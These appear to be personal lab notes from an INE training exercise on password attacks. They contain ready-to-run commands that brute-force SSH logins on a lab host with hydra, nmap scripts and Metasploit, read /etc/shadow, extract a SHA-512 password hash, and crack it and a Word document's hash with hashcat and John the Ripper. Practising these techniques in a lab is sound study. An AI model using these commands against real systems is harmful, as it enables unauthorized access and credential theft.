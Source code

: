 ------------

**Live Bruteforce and Password Cracking**
```bash
ping demo.ine.local
nmap -sV -sS demo.ine.local
ifconfig
gzip -d /usr/share/wordlists/rockyou.txt.gz
hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh
/usr/share/nmap/nselib/data/passwords.lst
echo "administrator" > users
cat users
nmap -p 22 --script ssh-brute --script-args userdb=/root/users demo.ine.local
```

```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
```

```
sessions
ssh root@demo.ine.local
yes
attack
id
```

------------

**Offline Bruteforce and Password Cracking**
```bash
cat /etc/shadow
admin:$6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9isy7knhpskIEQG.s9eB8auxVqrroksib7uQyiCtrJIgr48XmR8o7Pa7O/:18945:0:99999:7:::
grep -A 18 ENCRYPT_METHOD /etc/login.defs
tail -n 1 /etc/shadow > admin.hash
cat admin.hash
$6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9isy7knhpskIEQG.s9eB8auxVqrroksib7uQyiCtrJIgr48XmR8o7Pa7O/
```

```bash
hashcat -m 1800 -a 0 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt
john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt
```

```bash
cd /root/Desktop/
/usr/share/john/office2john.py MS_Word_Document.docx > hash
cat hash
```
